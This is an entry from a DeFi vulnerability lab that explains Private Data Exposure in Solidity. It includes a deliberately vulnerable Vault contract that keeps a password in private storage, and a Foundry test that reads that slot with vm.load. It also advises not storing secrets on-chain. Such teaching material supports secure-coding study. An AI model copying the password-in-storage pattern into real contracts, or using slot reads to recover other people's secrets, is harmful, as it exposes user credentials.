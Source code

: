 #  Private data
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  
**Name:** Private Data Exposure

**Description:**  
Solidity stores the variables defined in the contract in slots. Each slot can accommodate up to 32 bytes or 256 bits. Given that all data stored on-chain, whether public or private, can be read, it is possible to read private data from the Vault contract by predicting the memory slot where the private data resides.

If the Vault contract is utilized in a production environment, malicious actors could employ similar techniques to access sensitive information such as user passwords.

**Mitigation:**  
Avoid storing sensitive data on-chain

**REF**  

https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d

**Vault Contract:**  
```
contract Vault {
    // slot 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // slot 1
    User[] public users;
    // slot 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```
**How to Test:**

forge test --contracts src/test/Privatedata.sol-vvvv  
```
// Function declaration for testReadprivatedata() which is a public function.
    function testReadprivatedata() public {
        
        // A new instance of the Vault contract is created with an argument `123456789`.
        VaultContract = new Vault(123456789);

        // Calls the `vm.load` function with the Vault contract's address and the location (0).
        // The `vm.load` function loads data from the given storage slot in the contract at the provided address.
        // Here, the 0th storage slot of the contract is read. In Solidity, storage layout starts from slot 0.
        bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

        // Logs the value of the first storage slot, converting the bytes32 value to a uint256.
        console.log(uint256(leet));

        // The `vm.load` function is called again, but this time, it uses a method `getArrayLocation` from the VaultContract to
        // calculate the storage slot of a specific array element. This is because arrays in Ethereum are not stored 
        // in contiguous blocks but each element is hashed to find its location.
        // Here, it's assumed that there's an array in the Vault contract and you're trying to access the data at slot 1 (based on your parameters)
        bytes32 user = vm.load(
            address(VaultContract),
            VaultContract.getArrayLocation(1, 1, 1)
        );
        
        // Logs the value of the particular array element that was read from the contract storage, converting it from bytes32 to uint256.
        console.log(uint256(user));
    }
```  
Red box: read private data successful.
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbfa76e84-7cd5-45ce-8b04-9032673ab3af%2FUntitled.png?table=block&id=09c2a521-e269-4e04-8e81-7516e5c8ac58&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2) 
